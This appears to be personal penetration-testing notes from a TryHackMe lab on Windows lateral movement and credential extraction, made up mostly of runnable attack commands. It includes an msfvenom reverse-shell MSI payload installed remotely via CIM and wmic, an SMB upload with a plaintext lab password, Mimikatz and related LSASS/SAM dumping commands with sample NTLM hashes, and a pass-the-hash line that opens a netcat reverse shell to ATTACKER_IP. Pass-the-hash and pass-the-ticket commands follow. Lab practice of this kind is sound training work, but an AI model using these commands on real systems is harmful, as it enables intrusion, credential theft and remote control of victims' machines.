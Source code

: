 ```powershell
Invoke-CimMethod -CimSession $Session -ClassName Win32_Product -MethodName Install -Arguments @{PackageLocation = "C:\Windows\myinstaller.msi"; Options = ""; AllUsers = $false}
```
```shell
msfvenom -p windows/x64/shell_reverse_tcp LHOST=lateralmovement LPORT=4445 -f msi > myinstaller.msi
smbclient -c 'put myinstaller.msi' -U t1_corine.waters -W ZA '//thmiis.za.tryhackme.com/admin$/' Korine.1994
```
We can achieve the same by us using wmic in legacy systems:

```shell-session
wmic /node:thmiis.za.tryhackme.com /user:ZA.TRYHACKME.COM\t1_corine.waters product call install PackageLocation=c:\Windows\myinstaller.msi
```
## extract cred
#### extract cred from LSASS
- Local Security Authority (LSA) is responsible for auth on a windows machine, where LSASS is it's service
- LSASS stores creds in format like NT, Kerberos, ... when user:
- logon, use RDP, RunAs, run windows service, schedule task, 
after get access as local admin in remote machine,
- we try to extract creds: 
	`mimikatz`, `Invoke-Mimikatz -Command '"sekurlsa::ekeys"'`, `Safteykatz.exe "sekurlsa::ekeys"`, `pypykatz.exe live lsa` `Sharpkatz.exe --Command keys`, `rundll32.exe C:\Dumpert\Outflank-Dumpert.dll,Dump`  , `comsvcs.dll`
	from linux use `impaket-dumpsecrets`, `Physmem2profit`
- `DPAPI` browser is the new LSASS
- SAMHI
- LSA registery
- cred vulte
```shell
mimikatz # privilege::debug 
mimikatz # token::elevate 
mimikatz # sekurlsa::msv
```
#### extract from local SAM
```powershell
mimikatz # privilege::debug 
mimikatz # token::elevate 
mimikatz # lsadump::sam 
RID : 000001f4 (500) 
User : Administrator 
Hash NTLM: 145e02c50333951f71d13c245d352b50
```
##### use that extracted creds
- path the hash (PTH)
```powershell
mimikatz # token::revert
mimikatz # sekurlsa::pth /user:bob.jenkins /domain:za.tryhackme.com /ntlm:6b4a57f67805a663c818106dc0648484 /run:"c:\tools\nc64.exe -e cmd.exe ATTACKER_IP 5555"
```
```shell
xfreerdp /v:VICTIM_IP /u:DOMAIN\\MyUser /pth:NTLM_HASH
psexec.py -hashes NTLM_HASH DOMAIN/MyUser@VICTIM_IP
evil-winrm -i VICTIM_IP -u MyUser -H NTLM_HASH
```
- path the ticket (PTT) -> process usually requires us to have SYSTEM privileges
```shell
mimikatz # privilege::debug
mimikatz # sekurlsa::tickets /export
mimikatz # kerberos::ptt [0;427fcd5]-2-0-40e10000-Administrator@krbtgt-ZA.TRYHACKME.COM.kirbi
```
- Over Pass the hash (OPTH) generate tokens from hashes or keys (GET GTG from HASH). 
	since we have user key `rc4,aes128,sha256` we can use it to grant TGT from DC